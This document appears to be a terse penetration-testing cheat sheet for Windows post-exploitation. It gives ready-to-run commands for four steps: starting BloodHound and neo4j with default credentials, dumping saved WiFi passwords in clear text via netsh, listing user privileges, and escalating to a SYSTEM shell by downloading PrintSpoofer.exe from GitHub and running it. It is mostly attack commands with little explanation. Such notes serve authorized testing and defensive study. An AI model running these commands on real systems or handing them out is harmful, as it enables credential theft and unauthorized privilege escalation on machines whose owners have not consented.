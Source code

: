 # Bloodhound

### Init
```
sudo neo4j console

# Access WEB Page and change default password
# Default User: neo4j
# Default Pass: neo4j
firefox http://localhost:7474/
```

### Start
```
bloodhound
```

# WiFi

### Gathering
```
netsh wlan show profile
netsh wlan show profile <SSID> key=clear
```

# Permissions

### Get Current User Permissions
```
whoami /all
whoami /priv
```

### SeImpersonatePrivilege
```
# Privilege Escalation: https://github.com/dievus/printspoofer

wget https://github.com/dievus/printspoofer/raw/master/PrintSpoofer.exe
PrintSpoofer.exe -i -c cmd
```













